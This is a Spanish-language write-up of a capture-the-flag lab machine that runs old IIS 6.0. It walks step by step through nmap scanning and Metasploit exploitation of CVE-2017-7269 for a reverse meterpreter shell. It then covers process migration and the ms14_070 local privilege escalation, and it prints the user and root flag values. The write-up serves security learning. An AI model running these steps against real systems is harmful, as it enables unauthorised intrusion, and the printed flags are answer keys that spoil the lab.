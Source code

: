
![[ 20250720112518.png]](grandpa-images/20250720112518.png)

# NMAP

Lo primero es hacer un escaneo básico de puertos con nmap 

>En los writeups de aqui en adelante cambiare la ejecución de algunos comandos por ejemplo :
> - en Nmap cambiaremos -oN scanner (que es la manera en la que solía realizar el primer escaneo ) por -oG allPorts (ahora lo haremos en formato grepeable mandándolo al archivo allPorts se le puede poner cualquier nombre pero yo me he guiado de como hace mas maquina S4vitar y ya por la costumbre de verlo asi voy a mantener el mismo nombre )

```bash
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.129.182.216 -oG allPorts
```

![[ 20250720112643.png]]

>haremos este formato grepeable por el motivo de que tenemos en el .zshrc una funcion llamada extractPorts (tambien de S4vitar) con la que veremos de manera sencilla los puertos, a demas que se quedaran guardados en la clipboard y sera mas sencillo el siguiente escaner con scripts>

```bash
extractPorts allPorts
```

![[ 20250720113211.png]]

>En este caso solo es un puerto pero cuando se tratan de 5, 6 u 10 puertos abiertos esta función nos ayuda bastante a dinamizar el proceso de reconocimiento

seguimos con un escaneo con scripts básicos de nmap 

```bash
nmap -p80 -sCV 10.129.222.98 -oN targeted
```

![[ 20250720113440.png]]

aqui vemos la versión Microsoft IIS httpd 6.0

he explorado el puerto 80 hay bastantes html pero no hay gran cosa que poder hacer con mi nivel actual asi que de momento nos apoyamos en metasploit

# Mestasploit

Buscamos en google con el nombre del servicio y la version 

![[ 20250720113746.png]]

aqui podemos ver que la propia ia de Google reconoce la vulnerabilidad CVE-2017-7269


abrimos metasploit

```bash
msfdb run
```

y  buscamos por la vulnerabilidad encontrada

```bash
search CVE-2017-7269
```

![[ 20250720113945.png]]

como solo hay un modulo utilizaremos ese

```bash
use 0
```

cambiaremos:

- RHOSTS - IP VCTIMA
- LHOST - NUESTRA IP
- (OPCIONAL) LPORT - PUERTO A ELEGIR DE NUESTO SISTEMA 
	-hay veces que los sistemas bloquean el puerto 4444 que es el que usa metasploit por defecto por lo que a veces es mejor cambiarlo


lanzamos el exploit 

```bash
exploit
```

conseguiremos una terminal como meterpreter pero non tendremos acceso a nada así que tenemos que solucionar eso 

# Escalada de privilegios

Aqui descubrí una herramienta que me ha gustado mucho, se usa desde meterpreter por lo que se de momento

```bash
run post/multi/recon/local_exploit_suggester 
```

esta herramienta viene ya instalada y nos hace un escáner de vulnerabilidades en la maquina local en este caso el Windows victima

![[ 20250720112429.png]]


nos da opciones a varios exploits pero seguimos estando en una configuración del sistema que nos limita asi que tendremos que migrar

## migración

usaremos `ps` para ver PID´s a los que podamos migrar y que tengan autorizaciones

```bash
ps
```

![[ 20250720115330.png]]

en este caso migraremos a wmiprvse.exe 

```bash
migrate 1884
```

![[ 20250720115417.png]]

una vez hemos migrado haremos un background del meterpreter para dejar la sesion suspendida y poder reutilizarla


```bash
background
```

ahora utilizaremos uno de los exploits encontrados en el escáner local que hicimos antes. en este caso yo usare `exploit/windows/local/ms14_070_tcpip_ioctl`

![[ 20250720115610.png]]

modificamos:
- SESSION - set session 1
- LHOST - NUESTRA IP
- (OPCIONAL) LPORT - PUERTO A ELEGIR DE NUESTO SISTEMA

y lanzamos el ataque

```bash
exploit
```

ahora si que tendremos una shell de meterpreter con total acceso a todo el sistema

# flags

## User

![[ 20250720120049.png]]

la flag de user esta en el directorio: C:\Documents and Settings\Harry\Desktop

user : bdff5ec67c3cff017f2bedc146a5d869

## Root

![[ 20250720120210.png]]

la flag de root esta en el directorio:  C:\Documents and Settings\Administrator\Desktop

root: 9359e905a2c35f861f6a57cecf28bb7b

# Nota

>Muestro las flags con la intencion de no ocultar nada en el writeup y que todo quede limpio y claro. No obstante de nada sirve copiar la flag para compartir la maquina resuelta, lo que verdaderamente da valor no es la flag si no el entendimiento del proceso para conseguirla.
>Con este writeup lo que se busca es que una persona pueda entender la maquina y las vulnerabilidades que contiene, a demas de aprender la manera de explotarlas. Os animo a que trateis de aprender el proceso y la metodologia y que practiqueis varias veces la maquina hasta poder hacerla sin mirar guias de esta forma este writeup sera realmente eficiente y podreis aprender y crecer en el mundo de la ciberseguiridad al igual que yo trato de aprender y crecer de igual modo.

Esto es todo espero que os ayuden mis writeups.
